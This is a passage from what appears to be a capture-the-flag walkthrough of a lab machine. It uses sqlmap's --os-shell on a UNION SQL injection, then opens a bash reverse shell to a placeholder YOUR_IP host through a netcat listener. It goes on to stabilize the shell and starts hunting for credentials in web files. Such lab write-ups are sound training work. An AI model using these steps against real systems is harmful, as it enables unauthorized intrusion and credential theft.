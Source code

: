 The input field seems vulnerable to a `UNION` SQL injection.

Using `--os-shell` as a parameter, we can spawn a shell using sqlmap. 

Let's now spawn a reverse shell in another window, starting a listener on __port 443__ with:

```console
$ nc -lvnp 443
```
Parameters explanation:

- _l_: Listen for connections.
- _v_: Set verbosity level (can be used several times).
- _n_: Do not resolve hostnames via DNS.
- _p_: Specify source port to use.

and then executing the following command on the shell, we got via sqlmap:

```console
$ bash -c 'bash -i >& /dev/tcp/YOUR_IP/443 0>&1'
```
We initiate a reverse shell, and we are in.

![Desktop View](/assets/img/Vaccine/shell.png){: }

> The first step is always stabilizing the shell so we can't accidentally close the connection if we press something like CTRL+C.
{: .prompt-tip }

```console
$ script /dev/null -c bash
CTRL + Z (nc process into the background)
$ stty raw -echo; fg
$ reset
$ xterm
$ export TERM=xterm
$ export SHELL=bash
```
Now we should have a fully stabilized shell.

### On-Machine Enumeration
---

Seeing how we are on a web server's database, let's dig around `/var/www/html`{: .filepath}.

Looking at the `dashboard.php`{: .filepath} file, we can see some credentials.
